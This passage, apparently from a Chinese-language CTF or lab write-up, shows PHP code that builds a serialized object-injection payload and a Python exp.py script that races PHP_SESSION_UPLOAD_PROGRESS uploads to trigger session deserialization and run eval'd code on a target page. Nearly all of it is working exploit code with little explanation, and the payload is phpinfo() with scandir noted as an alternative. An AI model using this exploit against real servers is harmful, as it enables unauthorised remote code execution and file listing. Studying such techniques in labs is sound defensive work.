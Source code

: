 ```php
        echo "你的访问时间:"."  ".date('Y-m-d H:i:s',time());
    }
}

class  IP{
    public $ip;
    function __construct() {
        //$this->ip='payload';
        $this->ip='phpinfo();';
        //$this->ip='print_r(scandir('/'));';
    }
    function action() {
        eval($this->ip);
    }
}
$a=new Door();
$b=serialize($a);
$c=addslashes($b);
$d=str_replace("O:4:","|O:4:",$c);
echo $d;
?>
```

其此利用exp.py脚本进行竞争

```python
#coding=utf-8
import requests
import threading
import io
import sys

def exp(ip,port):
    
    f = io.BytesIO(b'a' * 1024 *1024*1)
    while True:
        et.wait()
        url = 'http://'+ip+':'+str(port)+'/test5.php'
        headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
        'DNT': '1',
        'Cookie': 'PHPSESSID=20190506',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1'
        }
        proxy = {
        'http': '127.0.0.1:8080'
        }
        data={'PHP_SESSION_UPLOAD_PROGRESS':'123'}
        files={
            'file':(r'|O:4:\"Door\":1:{s:6:\"handle\";O:2:\"IP\":1:{s:2:\"ip\";s:10:\"phpinfo();\";}}',f,'text/plain')
        }
        resp = requests.post(url,headers=headers,data=data,files=files,proxies=proxy) #,proxies=proxy
        resp.encoding="utf-8"
        if len(resp.text)<2000:
            print('[+++++]retry')
        else:
            print(resp.content.decode('utf-8').encode('utf-8'))
            et.clear()
```